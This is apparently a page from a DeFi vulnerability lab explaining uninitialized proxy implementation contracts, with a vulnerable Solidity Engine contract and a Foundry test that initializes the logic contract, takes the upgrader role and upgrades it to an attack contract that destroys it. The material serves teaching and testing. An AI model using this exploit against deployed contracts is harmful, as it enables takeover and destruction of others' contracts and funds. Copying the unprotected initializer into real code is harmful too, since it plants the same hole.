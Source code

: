 # Uninitialized state variables  
[Uninitialized_variables.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Uninitialized_variables.sol)  
**Name:** Uninitialized variable Vulnerability

**Description:**  
Uninitialized local storage variables may contain the value of other storage variables in the contract;
this fact can cause unintentional vulnerabilities, or be exploited deliberately.

**REF:**

https://blog.dixitaditya.com/ethernaut-level-25-motorbike

**Contract:**  
```
contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```
**How to Test:**

forge test --contracts src/test/**Uninitialized_variables.sol** -vvvv
```
// A function to test exploiting an uninitialized contract.
function testUninitialized() public {
    // A new instance of Engine and Motorbike contracts are created. 
    // The address of the EngineContract is passed to the MotorbikeContract's constructor.
    EngineContract = new Engine();
    MotorbikeContract = new Motorbike(address(EngineContract));

    // A new instance of AttackContract is created.
    AttackContract = new Attack();

    // Prints the upgrader of the EngineContract. Since EngineContract is not yet initialized, upgrader is likely a zero address.
    console.log("Uninitialized Upgrader:", EngineContract.upgrader());

    // Calls the `initialize()` function of the EngineContract. 
    // Since EngineContract was not initialized, whoever calls this function becomes the "upgrader".
    address(EngineContract).call(abi.encodeWithSignature("initialize()"));

    // Prints the upgrader of the EngineContract. Now, it will be the address that called `initialize()`.
    console.log("Initialized Upgrader:", EngineContract.upgrader());

    // Upgrades the implementation of the proxy (EngineContract) to a malicious contract (AttackContract) and call `attack()`.
    bytes memory initEncoded = abi.encodeWithSignature("attack()");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );

    // Prints "Exploit completed"
    console.log("Exploit completed");

    // Since the EngineContract was destroyed by the `attack()`, the next call will fail.
    console.log("Since EngineContract destroyed, next call will fail.");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );
}
```
Red box: change the logic contract by initialize.
![Alt text](image-16.png)
